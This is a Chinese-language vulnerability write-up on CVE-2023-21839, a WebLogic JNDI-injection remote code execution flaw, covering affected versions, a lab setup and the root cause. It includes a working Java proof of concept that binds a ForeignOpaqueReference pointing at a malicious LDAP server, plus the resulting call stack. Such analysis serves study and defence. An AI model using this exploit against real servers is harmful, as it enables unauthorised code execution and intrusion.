




- [CVE-2023-21839 远程代码执行(JNDI)](#cve-2023-21839-远程代码执行jndi)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [ForeignOpaqueReference](#foreignopaquereference)
  - [漏洞复现](#漏洞复现)
  - [参考](#参考)

# CVE-2023-21839 远程代码执行(JNDI)
## 影响版本
```
Weblogic 12.2.1.3.0  
Weblogic 12.2.1.4.0  
Weblogic 14.1.1.0.0  
```
实测12.1.3也受影响
## 环境搭建
https://github.com/QAX-A-Team/WeblogicEnvironment  
测试环境:  
Weblogic 12.1.3  
JDK: 8u112
## 原理分析
利用Weblogic中的RMI在lookup时对`OpaqueReference`子类的对象会调用`getReferent()`方法,寻找到一个可利用的`ForeignOpaqueReference`类,其相关方法中存在JNDI注入完成RCE.
### ForeignOpaqueReference
主要是利用Weblogic的JNDI在lookup一个对象时,如果该对象是`OpaqueReference`的子类,那么会调用其`getReferent()`方法.  
  
而`ForeignOpaqueReference`則是实现了`OpaqueReference`且其`getReferent()`方法中存在一个JNDI注入的sink.  
  
所以可以通过反射修改`ForeignOpaqueReference`对象的`remoteJNDIName`属性为恶意LDAP地址,获得一个恶意的ForeignOpaqueReference obj再将其绑定到weblogic的注册表上,再对该对象进行一次查询,那么就会触发`ForeignOpaqueReference#getReferent()`,最终触发JNDI注入. 
## 漏洞复现  
```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class poc {
    static String JNDI_FACTORY="weblogic.jndi.WLInitialContextFactory";
    private static InitialContext getInitialContext(String url)throws NamingException
    {
        Hashtable env = new Hashtable();
        env.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env.put(Context.PROVIDER_URL, url);
        return new InitialContext(env);
    }
    public static void main(String args[]) throws Exception {
        InitialContext c=getInitialContext("t3://127.0.0.1:7001");
        Hashtable env = new Hashtable();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        weblogic.deployment.jms.ForeignOpaqueReference obj=new weblogic.deployment.jms.ForeignOpaqueReference();
        Field jndiEnvironment=weblogic.deployment.jms.ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
        jndiEnvironment.setAccessible(true);
        jndiEnvironment.set(obj,env);
        Field remoteJNDIName=weblogic.deployment.jms.ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
        remoteJNDIName.set(obj,"ldap://192.168.65.2:1389/pcho5q");
        c.rebind("poc",obj);
        c.lookup("poc");}
}
```
  
  
调用栈
  
```
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
getReferent:247, ForeignOpaqueReference (weblogic.deployment.jms)
getObjectInstance:92, WLNamingManager (weblogic.jndi.internal)
resolveObject:388, ServerNamingNode (weblogic.jndi.internal)
resolveObject:886, BasicNamingNode (weblogic.jndi.internal)
lookup:219, BasicNamingNode (weblogic.jndi.internal)
invoke:-1, RootNamingNode_WLSkel (weblogic.jndi.internal)
invoke:701, BasicServerRef (weblogic.rmi.internal)
invoke:231, ClusterableServerRef (weblogic.rmi.cluster)
run:527, BasicServerRef$1 (weblogic.rmi.internal)
doAs:363, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:146, SecurityManager (weblogic.security.service)
handleRequest:523, BasicServerRef (weblogic.rmi.internal)
run:118, WLSExecuteRequest (weblogic.rmi.internal.wls)
execute:311, ExecuteThread (weblogic.work)
run:263, ExecuteThread (weblogic.work)
```
## 参考
https://www.oracle.com/security-alerts/cpujan2023verbose.html